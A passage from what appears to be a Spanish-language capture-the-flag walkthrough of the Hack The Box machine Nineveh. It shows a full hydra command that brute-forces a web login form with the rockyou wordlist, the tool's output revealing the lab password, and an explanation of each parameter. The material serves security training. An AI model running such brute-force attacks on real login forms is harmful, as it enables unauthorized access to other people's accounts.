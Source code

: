 Tenemos nuevos recursos, para el 80 `department` al cual si le echamos un ojo, tenemos otro panel de login:

![](/assets/images/htb-nineveh/nineveh-web3.png)

A este punto, tenemos dos paneles de login, por lo que podriamos tratar de hacer SQLi; sin embargo, los sitios no son vulnerables, por lo que vamos a tratar de hacer fuerza bruta para obtener la contraseña y empezaremos con el puerto recurso `db` y la herramienta `hydra`.

```bash
❯ hydra -l none -P /usr/share/wordlists/rockyou.txt nineveh.htb https-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-27 20:55:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[STATUS] 727.00 tries/min, 727 tries in 00:01h, 14343672 to do in 328:50h, 16 active
[443][http-post-form] host: nineveh.htb   login: none   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-27 20:57:05
```

Hablando un poco del comando `hydra`, con el parámetro `-l` le indicamos un nombre de usuario, si es minúscula es que conocemos el usuario y con mayúscula le indicamos un diccionario; para este caso en concreto, no requerimos usuario ya que solo se tiene el campo de password, así que le ponemos `none`. Con el parámetro `-P` le indicamos la contraseña y la ponemos en mayúscula ya que haremos uso de un diccionario, el `rockyou.txt`. Posteriormente el indicamos la dirección IP o el dominio, luego el método que se utilizar para tramitar la petición, para este caso es **POST** y se lo indicamos con `https-form-post` y por último entre comillas ponemos tres valores separados por dos puntos `:`, el primero corresponde al recurso donde se encuentra el panel de login, el segundo los datos que se tramitan y el tercero, algún indicador que nos ayude a validar si la contraseña es correcta o incorrecta. Esta información la podemos obtener de **Inspeccionar** del navegador, que puede ser click secundario e **Inspeccionar** o haciendo Ctrl + O en el navegador y después hacer una solicitud con cualquier contraseña.

